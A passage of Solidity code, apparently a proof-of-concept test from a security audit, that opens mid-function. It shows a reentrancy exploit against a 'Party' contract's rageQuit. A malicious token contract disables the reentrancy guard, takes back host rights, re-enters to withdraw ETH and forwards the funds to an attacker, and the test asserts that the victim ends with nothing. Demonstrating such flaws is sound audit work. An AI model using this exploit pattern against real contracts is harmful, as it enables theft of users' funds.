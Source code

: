 ```solidity
   // Simulate there is 1 ETH in the party
   vm.deal(address(party), 1 ether);

   // Alice decides to rage quit

   IERC20[] memory tokens = new IERC20[](2);
   tokens[0] = IERC20(address(reenteringContract));
   tokens[1] = IERC20(ETH_ADDRESS);

   uint256[] memory tokenIds = new uint256[](1);
   tokenIds[0] = aliceTokenId;

   vm.prank(alice);
   party.rageQuit(tokenIds, tokens, alice);

   // Alice has 0 ETH while the host (attacker) has all the funds
   assertEq(alice.balance, 0);
   assertEq(host.balance, 1 ether);
}

contract ReenteringContract is ERC721Receiver {
    Party party;
    uint256 tokenId;
    address attacker;

    constructor(Party _party, uint256 _tokenId, address _attacker) {
        party = _party;
        tokenId = _tokenId;
        attacker = _attacker;
    }

    function balanceOf(address) external returns (uint256) {
        return 1337;
    }

    function transfer(address, uint256) external returns (bool) {
        // Disable reentrancy guard
        party.setRageQuit(uint40(block.timestamp + 1));

        // Return host to attacker
        party.abdicateHost(attacker);

        // Execute attack
        IERC20[] memory tokens = new IERC20[](1);
        tokens[0] = IERC20(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE);
        uint256[] memory tokenIds = new uint256[](1);
        tokenIds[0] = tokenId;
        party.rageQuit(tokenIds, tokens, address(this));
        return true;
    }

    fallback() external payable {
        // sends funds to attacker
        payable(attacker).transfer(address(this).balance);
    }
}
```
